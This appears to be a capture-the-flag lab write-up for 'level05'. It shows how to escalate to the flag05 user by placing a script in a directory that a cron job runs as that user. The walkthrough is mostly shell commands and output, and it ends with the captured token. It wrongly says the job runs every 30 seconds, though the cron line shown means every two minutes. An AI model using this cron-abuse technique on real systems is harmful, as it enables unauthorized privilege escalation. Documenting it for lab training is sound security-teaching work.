 # level05

```bash
find / -user flag05 2>/dev/null
# /usr/sbin/openarenaserver
```

### What is it?

```bash
ls -la /usr/sbin/openarenaserver
# -rwxr-x---+ 1 flag05 flag05 94 Mar  5  2016 /usr/sbin/openarenaserver
```

`cat /usr/sbin/openarenaserver`
```sh
#!/bin/sh

for i in /opt/openarenaserver/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
done
```

Understang the script:
```
ulimit just set the CPU limit, nothing interesting here
bash -x => Print commands and their arguments as they are executed.
==> Launches scripts located in `/opt/openarenaserver/` and then deletes it
```

### But how could we execute it as flag05 ?

When we login with ssh, there is this message: `You have new mail.` \
We don't have the `mail` command but with a quick research we know where to look (`/var/mail`)

```bash
cat /var/mail/level05
# */2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

Now we know that it runs automatically every 30sec, we can put this script in `/opt/openarenaserver/`
```bash
#!/usr/bin/env bash

echo `whoami` >> /tmp/whoami
echo `getflag` >> /tmp/getflag05
```

Once ran, we can display the flag:
```bash
cat /tmp/getflag05
# Check flag.Here is your token : viuaaale9huek52boumoomioc
```
